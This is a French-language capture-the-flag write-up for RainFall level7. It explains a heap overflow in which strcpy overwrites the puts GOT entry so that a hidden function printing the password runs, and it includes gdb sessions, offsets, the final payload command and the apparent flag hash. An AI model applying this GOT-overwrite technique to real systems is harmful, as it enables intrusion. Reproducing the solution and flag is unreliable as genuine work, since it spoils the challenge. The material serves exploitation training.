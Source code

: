 # Solution

```
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

## Description du code

En observant le code source on peu constater que des pointeur on ete malloc et ensuite strcpy est utiliser sans verifier la taille de ce qui est copier.
La fonction m affiche une variable global c dans laquel le .pass est stocker apres l'appel de fgets.
On va donc pouvoir cree un overflow et utiliser une vulnérabilité.

## Test

--------------------------------------
Quelque test :

test1 :
level7@RainFall:~$ ./level7 AAA aaa
~~

test2 :
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Segmentation fault (core dumped)

test3 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 200)')
~~

test4 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 20000)')
~~

--------------------------------------
Analyse des registre :

Apres les test on peu voir que seulement av[1] overflow sur des donnée critique.
On va analiser les registres lors de l'overflow :

level7@RainFall:~$ gdb ./level7
(gdb) run $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Starting program: /home/user/level7/level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f42 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) 

(gdb) info register
eax            0x424242	4342338
ecx            0xbffff909	-1073743607
edx            0x41414141	1094795585
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff63c	0xbffff63c
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f42	0xb7eb8f42
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

(gdb) disassemble main
Vue sur l'appel du deuxieme strcpy
(...)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
(...)

eax contient notre av[2] et notre overflow a ecrasé eax, et que l'on ecrase pas eip.
On peu en conclure ceci :

- eip ne sera pas utile cette fois ci pas de ret to libc 
- edx est ecrasé et sert contient l'argument 1 du second strcpy
- eax lui contient l'argument numero 2 du second strcpy

--------------------------------------

## Description de l'exploit

On va pouvoir utiliser une vulnerabilité appeler "heap overflow".
Le principe sera d'ecraser l'argument 1 du second strcpy par l'adresse de puts, et de mettre l'adresse de m dans le second argument, 
afin que l'adresse de m sois copier dans l'adresse de puts ce qui va permettre de lancer m a la place de puts.
Comme puts est une fonction de la libc il faudra recuper don adresse dans la GOT.

-----------------
D'abord recuperons le critical offset lorsque l'on ecrase edx :

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB

Breakpoint 1, 0x08048524 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f52 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info register
eax            0x42424242	1111638594
ecx            0xbffff908	-1073743608
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f52	0xb7eb8f52
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51


0x37614136 -> ASCII + REVERSE -> 6Aa7

6Aa7 = 20 

-----------------

Adresse de m :

(gdb) p &m
$1 = (<text variable, no debug info> *) 0x80484f4 <m>

-----------------

AGOT adresse de puts :

(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
0xb7e911a0  _IO_fputs
0xb7e911a0  fputs
0xb7e927e0  _IO_puts
0xb7e927e0  puts
0xb7e96ee0  fputs_unlocked
0xb7f20750  putspent
0xb7f21fa0  putsgent

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928

-----------------
## Payload

GOT adress of puts : 0x08049928
Adress of m : 0x080484f4
Critical Offset : 20

level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1713690987